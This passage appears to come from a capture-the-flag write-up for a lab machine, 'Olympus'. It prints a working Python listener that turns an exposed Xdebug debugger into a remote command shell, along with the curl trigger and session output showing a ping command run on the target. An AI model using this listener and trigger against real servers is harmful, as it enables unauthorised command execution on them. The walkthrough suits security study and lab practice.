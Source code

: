 [This blog](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface)
describes how to do the attack, albeit in Chinese. There’s a short script he
uses to interact, which simply listens on port 9000, receives the connection,
and then enters an infinite loop of reading input commands from the command
line, and sends them back formatted for xdebug:

    
    
    #!/usr/bin/python2
    import socket
    
    ip_port = ('0.0.0.0',9000)
    sk = socket.socket()
    sk.bind(ip_port)
    sk.listen(10)
    conn, addr = sk.accept()
    
    while True:
        client_data = conn.recv(1024)
        print(client_data)
    
        data = raw_input('>> ')
        conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
    

To test it out, I’ll give Olympus a ping command, and use tcpdump to see if it
works.

With script running, use curl to trigger Xdebug:

    
    
    root@kali# curl http://10.10.10.83 -H "Cookie: XDEBUG_SESSION=wpOCvcWXx5"
    

Script gets callback. We can issue ping command:

    
    
    root@kali# ./exploit_xdebug.py
    494<?xml version="1.0" encoding="iso-8859-1"?>
    <init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/index.php" language="PHP" xdebug:language_version="7.1.12" protocol_version="1.0" appid="5380" idekey="XDEBUG_ECLIPSE"><engine version="2.5.5"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick
    Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2017 by Derick Rethans]]></copyright></init>
    >> system("ping -c 1 10.10.14.5")
    336<?xml version="1.0" encoding="iso-8859-1"?>
    <response xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" command="eval" transaction_id="1"><property type="string" size="61" encoding="base64"><![CDATA[cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA5NC4zNjEvOTUuMDcyLzk1Ljg2MS8wLjU2MiBtcw==]]></property></response>
    >>
    

And we see result in tcpdump:

    
    
    root@kali# tcpdump -i 2 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    14:42:22.296409 IP 10.10.10.83 > kali: ICMP echo request, id 5413, seq 0, length 64
    14:42:22.296431 IP kali > 10.10.10.83: ICMP echo reply, id 5413, seq 0, length 64
    